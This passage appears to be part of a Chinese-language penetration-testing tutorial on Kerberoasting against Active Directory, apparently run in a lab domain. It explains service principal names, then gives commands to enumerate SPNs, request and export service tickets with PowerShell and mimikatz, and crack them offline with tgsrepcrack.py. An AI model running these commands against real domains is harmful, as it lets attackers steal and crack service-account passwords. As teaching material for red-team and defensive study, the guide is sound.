serviceclass:标识服务类的字符串，例如Web服务的www

hostname:一个字符串，是系统的名称。这应该是全限定域名（FQDN）。

port:一个数字，是该服务的端口号。

servicename:一个字符串，它是服务的专有名称（DN），objectGuid，Internet主机名或全限定域名（FQDN）。

注意: 服务类和主机是必需参数，但 端口和服务名是可选的，主机和端口之间的冒号只有当端口存在时才需要。

### 4.2.2. 常见的服务与spn服务实例名称

MSSQLSvc/adsmsSQLAP01.adsecurity.org:1433

Exchange

exchangeMDB/adsmsEXCAS01.adsecurity.org

RDP

TERMSERV/adsmsEXCAS01.adsecurity.org

WSMan / WinRM / PS Remoting

WSMAN/adsmsEXCAS01.adsecurity.org

Hyper-V Host

Microsoft Virtual Console Service/adsmsHV01.adsecurity.org

VMWare VCenter

STS/adsmsVC01.adsecurity.org

## 4.3. SPN测试案例

### 4.3.1. 扫描服务

扫描服务中间的是域控的域名，其实这里也有工具可以检测，只是不知道是不是需要二次编译，下载下来的是源码。

[rubeus](https://github.com/GhostPack/Rubeus)

```
setspn -T 0day.org -q */*   #扫描全部服务
setspn -T 0day.org -q */* | findstr "MSSQL"  #扫描指定服务
```



### 4.3.2. 清空票据

这里清空票据也是怕影响后续的票据影响。

```
klist purge
```



### 4.3.3. 请求连接

这里我们可以进行请求一下，再请求后会留下票据，这里可以使用powershell或者mimakatz进行请求，如果再cs中，方便的话还是使用mimakatz进行请求。

```
请求：（要产生票据文件），选一个服务，查看是否是rc4加密
powershell Add-Type -AssemblyName System.IdentityModel
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"
或mimakatz请求
mimikatz kerberos::ask /target:MSSQLSvc/Srv-DB-0day.0day.org:1433
```


### 4.3.4. 查看票据

这里可以看一下，一定要是RC4才能够进行破解成功。

```
klist
```


### 4.3.5. 导出票据

这里使用mimikatz导出票据，导出后会在目录中出现相应的票据，这时候我们只需要使用cs自带的文件浏览查看即可。

```
mimikatz kerberos::list /export
```





### 4.3.6. 破解票据

这里破解工具相当于是将你的密码字典进行加密比较，成功与否取决于你的字典,同时需要使用到python3。

[破解票据工具](https://github.com/nidem/kerberoast)

```
 python .\tgsrepcrack.py .\pass.txt .\1-40a00000-webadmin@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi
```



